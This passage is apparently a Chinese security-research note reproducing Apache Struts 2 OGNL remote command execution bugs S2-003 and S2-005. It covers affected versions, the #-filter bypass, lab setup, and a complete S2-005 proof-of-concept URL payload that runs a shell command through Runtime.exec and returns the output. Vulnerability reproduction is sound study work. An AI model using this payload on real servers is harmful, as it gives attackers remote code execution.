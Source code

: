 **参考[Struts2和Webwork远程命令执行漏洞分析](http://security.ctocio.com.cn/100/11466600.shtml)、[Struts-S2-003漏洞利用（含环境搭建、含POC）](https://www.jianshu.com/p/c412c2961715)。**

**影响版本**

	Struts 2.0.0 - Struts 2.0.11.2
	2006/9/25    - 2008/6/23

**漏洞介绍**

Struts会将HTTP的每个参数名解析为ognl语句执行(可以理解为Java代码)。ognl表达式通过#来访问struts的对象，Struts框架通过过滤#字符防止安全问题，通过unicode编码(u0023)或8进制(43)即可绕过安全限制。

** 环境搭建 **

[下载](http://archive.apache.org/dist/struts/binaries/struts-2.0.1-all.zip)

解压，将其中的`struts2-showcase-2.0.1.war` 拷贝到`\tomcat\webapps`下，这里重命名了`s2-003`

[参考](https://www.jianshu.com/p/c412c2961715)

复现没有回显。

##### S2-005

** 影响版本 **

	Struts 2.0.0 - Struts 2.1.8.1

[官方链接](https://cwiki.apache.org/confluence/display/WW/S2-005)


S2-005是由于官方在修补S2-003不全面导致绕过补丁造成的。我们都知道访问Ognl的上下文对象必须要使用#符号，S2-003对#号进行过滤，但是没有考虑到unicode编码情况，导致\u0023或者8进制\43绕过。
S2-005则是绕过官方的安全配置（禁止静态方法调用和类方法执行），再次造成漏洞。


**POC**

	?('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)&('\u0023_memberAccess.excludeProperties\u003d@java.util.Collections@EMPTY_SET')(kxlzx)(kxlzx)&('\u0023_memberAccess.allowStaticMethodAccess\u003dtrue')(bla)(bla)&('\u0023mycmd\u003d\'ipconfig\'')(bla)(bla)&('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\u0023mycmd)')(bla)(bla)&(A)(('\u0023mydat\u003dnew\40java.io.DataInputStream(\u0023myret.getInputStream())')(bla))&(B)(('\u0023myres\u003dnew\40byte[51020]')(bla))&(C)(('\u0023mydat.readFully(\u0023myres)')(bla))&(D)(('\u0023mystr\u003dnew\40java.lang.String(\u0023myres)')(bla))&('\u0023myout\u003d@org.apache.struts2.ServletActionContext@getResponse()')(bla)(bla)&(E)(('\u0023myout.getWriter().println(\u0023mystr)')(bla))



![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-1-8/82304633.jpg)

更改命令为whoami，提示下载文件。文件中含有执行命令的结果。

![](https://image-1258195556.cos.ap-shanghai.myqcloud.com/qiniu/18-1-8/43559389.jpg)


##### S2-007

** 影响版本 **
